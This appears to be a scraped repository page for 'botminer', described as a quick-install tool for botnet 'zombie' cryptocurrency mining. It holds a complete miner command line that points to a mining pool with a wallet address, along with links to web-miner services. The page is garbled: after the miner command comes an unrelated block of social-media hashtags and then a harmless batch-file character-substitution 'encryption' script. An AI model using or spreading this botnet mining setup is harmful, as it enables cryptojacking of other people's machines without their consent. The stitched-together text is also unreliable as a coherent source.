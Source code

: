 "MINER"    -a curvehash -o stratum+tcp://curvehash.na.mine.zergpool.com:3343 -u PFMAoXTxv92xyacKK3nrRv6ogfjGWhb583 -p c=PLSR,mc=PLSR,ID=rig1 -t 4,4

crypto-webminer.com
https://www.moneroocean.crypto-webminer.com/moneroocean.html
https://moneroocean.stream/?#/dashboard


# botminer
A rapid install and run git for botnet zombie crypto mining. 
-To be used ethically for testing purposes only.
#love
#instagood
#photooftheday
#fashion
#beautiful
#happy
#cute
#tbt
#like4like
#followme
#picoftheday
#follow
#me
#selfie
#summer
#art
#instadaily
#friends
#repost
#nature
#girl
#fun
#style
#smile
#food
#instalike
#likeforlike
#family
#travel
#fitness


@echo off
setlocal ENABLEEXTENSIONS ENABLEDELAYEDEXPANSION
title Encrypt
color a
:mainmenu
set savefile=on
::set Encrypt=Nothing 
(set CHAR[b]=a)
(set CHAR[r]=e)
(set CHAR[o]=i)
(set CHAR[w]=o)
(set CHAR[n]=n)
(set CHAR[e]=y)

(set CHAR[c]=c)
(set CHAR[d]=d)
(set CHAR[f]=f)
(set CHAR[g]=g)
(set CHAR[h]=h)
(set CHAR[j]=j)
(set CHAR[k]=k)
(set CHAR[l]=l)
(set CHAR[m]=m)
(set CHAR[p]=p)
(set CHAR[q]=q)
(set CHAR[s]=s)
(set CHAR[t]=t)
(set CHAR[v]=w)
(set CHAR[x]=x)
(set CHAR[]=z)
echo Enter a string to encrypt:
set /p Encrypt=
cls
set Encrypt2=%Encrypt%
set "EncryptOut="
:encrypt2
set char=%Encrypt2:~0,1%
set Encrypt2=%Encrypt2:~1%
set EncryptOut=%EncryptOut%!CHAR[%char%]!
if not "%Encrypt2%"=="" goto encrypt2
echo Input string: %Encrypt%
echo.
echo Output string: %EncryptOut%
set string=%EncryptOut%
set temp_str=%string%
set str_len=0
:lengthloop
if defined temp_str (
set temp_str=%temp_str:~1%
set /A str_len += 1
goto lengthloop )
echo.
echo Output string is %str_len% characters long!
if "%savefile%"=="on" echo.%EncryptOut%>>%~d0%~p0encrypted.txt
echo.
pause
cls
goto mainmenu
